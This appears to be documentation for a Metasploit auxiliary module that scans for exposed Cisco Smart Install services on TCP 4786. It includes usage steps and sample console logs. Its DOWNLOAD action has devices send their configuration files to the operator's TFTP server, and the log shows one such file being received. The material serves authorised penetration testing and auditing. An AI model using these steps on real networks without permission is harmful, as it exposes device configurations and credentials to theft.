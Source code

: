 ## Vulnerable Application

  Any system exposing the Cisco Smart Install (SMI) protocol, which typically runs on TCP port 4786.

## Verification Steps

  1. Do: ```use auxiliary/scanner/misc/cisco_smart_install```
  2. Do: ```set ACTION SCAN```
  3. Do: ```set [RHOSTS]```, replacing ```[RHOSTS]``` with a list of hosts to test for the presence of SMI
  3. Do: ```run```
  4. If the host is exposing an identifiable SMI instance, it will print the endpoint.

## Options

### SLEEP
Time to wait for connection back from target. Default is `60` seconds if using `DOWNLOAD` action

### LHOST
Address to bind to for TFTP server to accept connections if using `DOWNLOAD` action

## Actions
There are two actions, default being ```SCAN```

  1. **SCAN** - Scan for Smart Install endpoints. [Default]
  2. **DOWNLOAD** - Request devices configuration and send to our TFTP server

## Scenarios

Using the default `SCAN` action
  ```
msf auxiliary(cisco_smart_install) > run

[*] Scanned  57 of 512 hosts (11% complete)
[*] Scanned 105 of 512 hosts (20% complete)
[*] Scanned 157 of 512 hosts (30% complete)
[*] Scanned 212 of 512 hosts (41% complete)
[*] Scanned 256 of 512 hosts (50% complete)
[*] Scanned 310 of 512 hosts (60% complete)
[*] Scanned 368 of 512 hosts (71% complete)
[*] Scanned 413 of 512 hosts (80% complete)
[*] Scanned 466 of 512 hosts (91% complete)
[+] a.b.c.d:4786   - Fingerprinted the Cisco Smart Install protocol
[*] Scanned 512 of 512 hosts (100% complete)
[*] Auxiliary module execution completed
```

Using the `DOWNLOAD` action

  ```
msf auxiliary(cisco_smart_install) > run
[*] a.b.c.d:4786   - Starting TFTP Server...
[+] a.b.c.d:4786   - Fingerprinted the Cisco Smart Install protocol
[*] a.b.c.d:4786   - Requesting configuration from device...
[*] a.b.c.d:4786   - Waiting 60 seconds for configuration
[*] a.b.c.d:4786   - Incoming file from a.b.c.d - GZjWgnqv 3015 bytes
[*] a.b.c.d:4786   - Providing some time for transfers to complete...
[*] a.b.c.d:4786   - Shutting down the TFTP service...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```
